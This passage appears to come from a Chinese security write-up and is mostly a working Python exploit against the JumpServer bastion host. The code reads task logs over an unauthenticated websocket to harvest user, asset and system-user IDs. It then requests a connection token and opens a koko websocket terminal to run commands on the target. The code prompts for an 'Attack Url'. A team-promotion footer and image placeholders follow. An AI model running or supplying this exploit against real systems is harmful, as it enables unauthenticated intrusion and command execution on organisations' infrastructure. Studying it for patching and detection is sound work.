            await send_msg(websocket, cmdtext)
            for i in range(1):
                recv_text = await websocket.recv()
                print(re.findall(r'"data":"(.*?)"', recv_text))


def POC_1(target_url):
    vuln_url = target_url + "/api/v1/users/connection-token/?user-only=1"
    response = requests.get(url=vuln_url, timeout=5)
    if response.status_code == 401 or response.status_code == 403 or response.status_code == 404:
        print("\033[32m[o] 目标 {} JumpServer堡垒机为未修复漏洞版本，请通过日志获取关键参数\033[0m".format(target_url))
        ws_open = str(input("\033[32m[o] 是否想要提取日志（Y/N） >>> \033[0m"))
        if ws_open == "Y" or ws_open == "y":
            ws = target_url.strip("http://")
            try:
                ws = ws_long('ws://{}/ws/ops/tasks/log/'.format(ws))
                ws.connect()
                ws.run_forever()
                ws.close()
            except KeyboardInterrupt:
                ws.close()
    else:
        print("\033[31m[x] 目标漏洞已修复，无法获取敏感日志信息\033[0m")
        sys.exit(0)


def POC_2(target_url, user, asset, system_user):
    if target_url == "" or asset == "" or system_user == "":
        print("\033[31m[x] 请获取 assset 等参数配置\033[0m")
        sys.exit(0)
    data = {"user": user, "asset": asset, "system_user": system_user}
    vuln_url = target_url + "/api/v1/users/connection-token/?user-only=1"
    # vuln_url = target_url + "/api/v1/authentication/connection-token/?user-only=1"

    try:
        response = requests.post(vuln_url, json=data, timeout=5).json()
        print("\033[32m[o] 正在请求：{}\033[0m".format(vuln_url))
        token = response['token']
        print("\033[36m[o] 成功获取Token：{}\033[0m".format(token))
        ws_url = target_url.strip("http://")
        ws_url = "ws://" + ws_url + "/koko/ws/token/?target_id={}".format(token)
        asyncio.get_event_loop().run_until_complete(main_logic(ws_url))

    except Exception as e:
        print("\033[31m[x] 请检查 assset 等参数配置,{}\033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    user = "7c30bef8-61e2-4644-bf90-f7cacd1936f8"
    asset = "2bb3df36-8e63-4ace-9f8f-c77e95ffc549"
    system_user = "abd00340-e9ba-40af-a432-9a85f867b6bb"
    POC_1(target_url)
    POC_2(target_url, user, asset, system_user)
```






  

  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**

  

**长**

**按**

**关**

**注**

**WgpSec 狼组安全团队**

微信号：wgpsec

Twitter：@wgpsec


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
